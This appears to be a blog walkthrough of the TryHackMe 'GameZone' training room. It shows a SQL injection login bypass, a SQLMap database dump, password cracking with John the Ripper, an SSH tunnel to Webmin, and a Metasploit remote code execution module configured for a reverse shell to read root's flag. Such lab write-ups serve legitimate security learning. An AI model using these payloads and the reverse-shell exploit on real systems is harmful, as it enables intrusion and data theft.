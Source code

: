 ```yaml
---
slug: gamezone-walkthrough
title: TryHackMe - GameZone - Walkthrough
authors: bw
tags: [learning, gamezone, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [GameZone][gz]. Let’s get started!
<!-- truncate -->

# Deploy the Machine
Deploy the machine and verify access through the website. Right away, we can answer our first question. You can do a reverse image search on the image they describe for the first answer, or if you know what game the character is from you can Google the name!

# Obtain access via SQLi
This task is pretty simple. Let’s just follow along.

Enter `' or 1=1 -- -` as our username and leave the password blank. We get redirected to a page and that is our answer!

![g1](/img/thm/gz/g1.webp)

# Using SQLMap
Here we are going to use SQLMap to exploit this form on the “Game Zone Portal” page.

Let’s start BurpSuite in order to intercept a request. Make sure you have your proxy turned on and intercept on, then enter anything into the search field.

![g2](/img/thm/gz/g2.png)

Let’s copy that request into a `.txt` file so we can pass it into SQLMap later.

We can now format our SQLMap command:

`sqlmap -r request.txt --dbms=mysql --dump`

Run that command and SQLMap will begin testing different methods.

Once complete, we see the output of two tables. We can grab the next 3 answers from this output.

![g3](/img/thm/gz/g3-1.png)

# Cracking a password with JohnTheRipper
Make sure to copy the hash to a file, so we can run JohnTheRipper against it.

The format for JohnTheRipper is the following:

```bash
john hash.txt --wordlist=$PATH/rockyou.txt --format=Raw-SHA256
```
Run this and we get our de-hashed password!

![g4](/img/thm/gz/g4.webp)

Now ssh into the machine and find the user flag!

![g5](/img/thm/gz/g5.png)

# Exposing Services with Reverse SSH Tunnels
Now let’s run ss to get socket information. Run the following on the victim machine:

`ss -tulpn`

We need to expose port 10000 to us. We can run the following command in a new terminal window on our local machine:

`ssh -L 10000:localhost:10000 <username>@<victim_ip>`

From here we can open up a new browser tab and navigate to `localhost:10000`

**NOTE:** Make sure to turn your BurpSuite proxy off if the page isn’t loading!

![g6](/img/thm/gz/g6-1.webp)

Login with our already known credentials to get the CMS version.

# Privilege Escalation with Metasploit
We can load up Metasploit on our attack machine (`msfconsole`) and search for an exploit:

`search webmin 1.58`

We find a Remote Code Execution (RCE) exploit! Let’s try that.

![g7](/img/thm/gz/g7.webp)

```bash
use 1
options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run
```
The session was created in the background, so lets open it: `sessions 1`

`whoami`
`cat /root/root.txt`

![g8](/img/thm/gz/g8.png)

# Review
That was a really fun room! It covered SQL injection, hash cracking, reverse SSH tunnels, and metasploit! I really enjoyed this room. Granted, it was easy and walked you through most of it, but we still learned a lot in the process!

# References
[TryHackMe][thm] | [GameZone][gz]

[thm]: https://tryhackme.com
[gz]: https://tryhackme.com/why-subscribe?roomCode=gamezone